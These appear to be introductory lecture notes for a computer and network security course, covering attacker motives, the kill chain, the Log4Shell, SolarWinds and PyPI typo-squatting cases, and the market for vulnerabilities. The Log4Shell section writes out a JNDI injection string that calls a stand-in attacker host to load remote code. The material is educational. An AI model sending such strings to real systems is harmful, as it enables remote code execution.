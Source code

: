 # Computer and Network Security: Overview

## The computer security problem

* Lots of buggy software
* Money can be made from finding and exploiting vulns
    - Marketplace for exploits (gaining a foothold)
    - Marketplace for malware (post-compromise)
    - Strong economic and political motivation for using both
* Current state:
    - Existence of vulns is somewhat evenly distributed across OS's
    - Usage of exploits: almost 50% start by attacking Microsoft Office; 32% start by attacking the browser

## Course goals

* Understand exploit techniques
    - Learn to defend and prevent common exploits
* Understand available security tools
* Learn to architect secure systems

## This course

* Part 1: basics (architecting for security)
    - Securing apps, OS, and legacy code: sandboxing, access control, and security testing
* Part 2: Web security (defending against a web attacker)
    - Building robust websites, understanding the browser security model
* Part 3: network security (defending against a network attacker)
    - Monitoring and architecting secure networks
* Part 4: securing mobile applications

# Course introduction: what motivates attackers?

## Why compromise machines? Examples

1. Steal user credentials
    - Keylog for banking passwords, corporate passwords, gaming passwords
    - e.g. SilentBanker: Adversary-in-the-Browser (AITB) attack; finSpy on mobile devices
2. Ransomware
    - Encrypts files on disk, requests payment (typically in cryptocurrency) to unlock
    - e.g. WannaCry (2017), weaponizing the EternalBlue Windows SMB exploit
3. Cryptocurrency mining
    - Malware trojans deploy cryptocurrency miners on end-user host systems to create powerful botnets; generates profit for hackers

## Why server-side attacks?

1. Data theft
    - Can steal credit card numbers, intellectual property, etc
    - e.g. Equifax (2017): ~143M "customer" data impacted"
        - Exploited known remote code execution (RCE) vulnerability in Apache Struts
    - Many such attacks since 2000
2. Political motivation
    - e.g. attack on DNC (2015)
    - e.g. Ukraine attacks: 2014 election, 2015-2016 power grid, 2017 NotPetya, ...
3. Infect visiting users: see above

## Typical attack steps (Cyber Kill Chain)

1. Reconnnaissance
2. Foothold: initial breach
3. Internal reconnaissance
4. Lateral movement
5. Data extraction
6. Exfiltration

## Case study: Log4Shell (2021)

* Log4j: popular logging framework for Java
    - Nov. 2021: vulnerability in Log4j v2 enables RCE
    - Over 7000 code repositories affected
* Bug:
    - Log4j can load and run code to process a log request
    - Attacker sends a message containing `${jndi:ldap://attacker.com}` to the victim
    - Victim runs `log.info("...${jndi:ldap://attacker.com}...")`
    - Victim will then HTTP GET the code at `ldap://attacker.com` and run it: allowing malicious Java code
* Exploitation:
    - Khonsari ransomware
    - XMRIG cryptominer
    - Orcus remote access trojan
* Preventing problems of this type:
    - Isolation: sandbox Log4j library or sandbox entire application

## Case study: SolarWinds Orion (2020)

* SolarWinds Orion: set of monitoring tools used by many organizations
* Attack (Feb. 20, 2020):
    - Attacker corrupts SolarWinds software update process using sunburst malware
    - Infected DLL distributed to customers, allowing remote access to customer sites
* Large number of infected organizations, not detected until Dec. 2020
* How did attacker corrupt the SolarWinds build process?
    - `taskhostsvc.exe` runs on SolarWinds build system:
        - Monitors for processes running `MsBuild.exe` (Visual Studio)
        - If found, read cmd line args to test if Orion software being built
        - If so:
            - Replace file `InventoryManager.cs` with malware version, backup original to `InventoryManager.bk`
            - When `MsBuild.exe` exits, restore original file, no trace left
* Fallout:
    - Large number of orgs and government systems exposed for many months
    - More generally: supply chain attack - hardware, software or service supplier is compromised -> many compromised customers
        - Many examples of this in the past (e.g., Target 2013 hack)

## Case study: typo squatting

* `pip`: Package installer from python
    - Usage: `pip install 'SomePackage >= 2.3'`
    - By default: installs from PyPi (Python Package Index at pypi.org)
        - PyPi hosts over 300,000 projects
* Security considerations: dependencies
    - Package maintainer can inject code into your environment
    - Supply chain attack: attack on package manager -> compromise dependent projects
* Security considerations: typo-squatting
    - The risk: malware packages with a similar name to a popular package; unsuspecting developers install the wrong package
    - e.g. `urllib3` is a package to parse urls, `urlib3` is a malware package
    - e.g. `python-nmap` is a net scanning package, `nmap-python` is a malware package
    - From 2017-2020, over 40 such incidents discovered on PyPi

# Course introduction: The Marketplace for Vulnerabilities

## Bug bounty programs

* Google: Up to $31,337
* Microsoft: Up to $100k
* Apple: Up to $200K
* Stanford: up to $1k
* Pwn2Own: $15k

## Exploit brokers

* Zerodium: up to $2M for iOS, $2.5M for Android (2019); clients are government organizations
* These groups are primarily interested in RCE, local privilege escalation (LPE), and sandbox escape (SBX)